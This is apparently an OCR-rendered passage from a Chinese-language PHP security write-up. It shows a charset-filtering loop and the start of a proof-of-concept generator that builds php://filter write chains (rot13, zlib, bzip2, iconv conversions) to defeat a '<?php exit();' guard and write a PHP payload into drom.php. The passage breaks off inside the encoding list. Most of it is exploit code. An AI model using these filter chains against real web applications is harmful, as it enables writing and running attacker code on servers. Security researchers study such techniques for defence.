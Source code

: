 ```php
    'CP950',
    'BIG-5',
    'EUC-KR',
    'UHC',
    'ISO-2022-KR',
    'Windows-1251',
    'Windows-1252',
    'CP866',
    'KOI8-R',
    'KOI8-U',
    'ArmSCII-8',
];
foreach ($a as $item) {
    if(!preg_match('/iconv|UCS|UTF|rot|quoted|base64/i',$item))
        echo $item,"\n";
}
```



### poc生成脚本：

```php
<?php

class Generate{
    public $prefix = "<?php exit();";
    public $poc = "<?php phpinfo();?>";
    public $base = "php://filter/write=";
    public $end = "/resource=drom.php";

    public $string = [
        'rot13' => 'str_rot13',
        'toupper' => 'strtoupper',
        'tolower' => 'strtolower',
        'strip_tags' => 'strip_tags',
    ];

    public $zlib = [
        'deflate',
        'inflate'
    ];

    public $bzip2 = [
        'compress',
        'decompress'
    ];

    public $convert = [
        'UCS-4',
        'UCS-4BE',
        'UCS-2' ,
        'UCS-2BE',
        'UCS-2LE',
        'UTF-32',
        'UTF-32BE',
        'UTF-32LE',
        'UTF-16',
        'UTF-16BE',
        'UTF-16LE',
        'UTF-7',
        'UTF7-IMAP',
        'UTF-8',
        'ASCII',
```
